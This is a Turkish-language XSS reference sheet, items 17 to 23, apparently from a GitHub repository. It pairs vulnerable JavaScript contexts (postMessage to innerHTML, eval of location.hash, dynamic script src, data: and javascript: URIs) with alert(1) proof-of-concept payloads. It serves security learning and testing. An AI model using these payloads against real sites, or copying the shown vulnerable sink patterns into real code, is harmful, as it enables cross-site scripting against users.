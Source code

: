 <h1>CONTEXTS</h1>
<br>

<h2>🔹 17. JavaScript Object Context (JSON gibi)</h2>
<h4>Input bir JSON içeriği içinde döner ama frontend JS bu veriyi parse edip kullanırsa, XSS olur.</h4><br>

📌 Örnek:  
`{"name":"PAYLOAD"}`  
<br>
🎯 Exploit:  
```html
\";alert(1);//
```
<br>



<h2>🔹 18. JavaScript URI inside <form> / <object> / <embed></h2>
<h4>Form Action veya Embed src attribute’larında javascript veya data URI kullanımı</h4><br>

📌 Örnek:  
`<form action="javascript:alert(1)">`  
veya  
`<embed src="data:text/html;base64,...">`
<br>

🎯 Exploit:  
```html
javascript:alert(1)
```
<br> 



<h2>🔹 19. Base64 / Data URI Context</h2>
<h4>Bazı yerlerde data: URL ile XSS yapılabilir.</h4><br>

📌 Örnek:  
`<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe>`  
<br>
🎯 Exploit:  
```html
data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
```
veya
```html
data:text/html,<script>alert(1)</script>
```

<br>


<h2>🔹 20. XHR / Fetch Injection via DOM Sinks</h2>
<h4>JS içindeki fetch(), XMLHttpRequest(), document.write(), eval() gibi API'ler üzerinden input kullanılıyorsa DOM XSS riski vardır.</h4><br>

📌 Örnek:  
`eval(location.hash.substring(1))`
<br>  
🎯 Exploit:  
```bash
http://site.com/#alert(1)
```
<br>



<h2>🔹 21. WebSocket / PostMessage / Custom Protocol Context</h2>
<h4>Az bilinir ama bazı uygulamalar postMessage, websocket içeriği olarak input’u alır ve DOM’a yansıtırsa yine XSS doğar.</h4><br>

📌 Örnek:  
```js
window.addEventListener("message", e => {
  document.body.innerHTML = e.data;
});
```
<br>

🎯 Exploit:  
```html
<img src=x onerror=alert(1)>
```
<br>



<h2>🔹 22. Script src dynamically built</h2>
<h4>JavaScript ile dinamik olarak oluşturulan script tag’larının src attribute’u kullanıcı girdisi<br>
ile inşa edilirse, zararlı kaynaklar yüklenebilir veya kod enjeksiyonu yapılabilir.</h4>
  <br>

📌 Örnek:  
```js
var script = document.createElement("script");
script.src = "/api/" + userInput;
document.body.appendChild(script);
```
<br>
🎯 Exploit:  

```html
";alert(1)//
```
<br>



<h2>🔹 23. SetTimeout / setInterval / Function constructor</h2>
<h4>setTimeout(), setInterval(), Function() gibi fonksiyonlara kullanıcı girdisi doğrudan kod olarak verilirse, XSS oluşur.</h4><br>

📌 Örnek:  
`setTimeout(userInput, 1000)`  
<br>
🎯 Exploit:  
```js
alert(1)
```
<br>
